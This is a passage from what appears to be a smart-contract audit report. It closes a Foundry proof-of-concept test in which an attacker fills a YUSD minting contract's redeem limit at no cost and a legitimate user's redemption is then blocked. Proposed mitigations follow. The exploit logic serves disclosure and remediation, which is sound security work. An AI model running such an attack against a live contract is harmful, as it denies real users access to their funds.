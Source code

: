 ```solidity
        console.log("  Current period total amount:", currentPeriodTotalAmount);
        assertEq(currentPeriodTotalAmount, redeemLimitAmount, "Redeem limit not filled");

        uint256 finalYUSDBalance = yusd.balanceOf(attacker);
        console.log("Final attacker YUSD balance:", finalYUSDBalance);
        assertEq(finalYUSDBalance, initialYUSDBalance, "Attacker lost YUSD");

        // Simulate legitimate user being blocked
        console.log("Simulating legitimate user attempt...");
        vm.startPrank(legitUser);
        OrderLib.Order memory legitOrder = OrderLib.Order({
            orderType: OrderLib.OrderType.REDEEM,
            userWallet: legitUser,
            collateralAsset: collateralAsset,
            collateralAmount: 100 ether,
            yusdAmount: 100 ether,
            slippageAdjustedAmount: 95 ether,
            expiry: block.timestamp + 1 hours,
            nonce: 999,
            additionalData: abi.encode("legit-request")
        });
        bytes32 legitDigest = OrderLib.hashOrder(legitOrder, minting.getDomainSeparator());
        (uint8 legitV, bytes32 legitR, bytes32 legitS) = vm.sign(privateKey, legitDigest);
        bytes memory legitSignature = abi.encodePacked(legitR, legitS, legitV);
        vm.expectRevert("LimitReached");
        minting.requestRedeem(legitOrder, legitSignature);
        console.log("Legitimate user redeem request blocked as expected.");
        vm.stopPrank();

        console.log("Exploit test completed successfully.");
    }
}
```


### Mitigation

There are several changes needed to make sure the issue is mitigated:
- disallow the expiry of requests to be at the exact timestamp of their creation, so: `if (block.timestamp >= self.expiry)`
- charge a fee on the YUSD sent when the request is created, not when it is approved, to increase the cost of the attack
- when a request is rejected/withdrawn, revert the redeem limit to reflect amounts only from approved requests
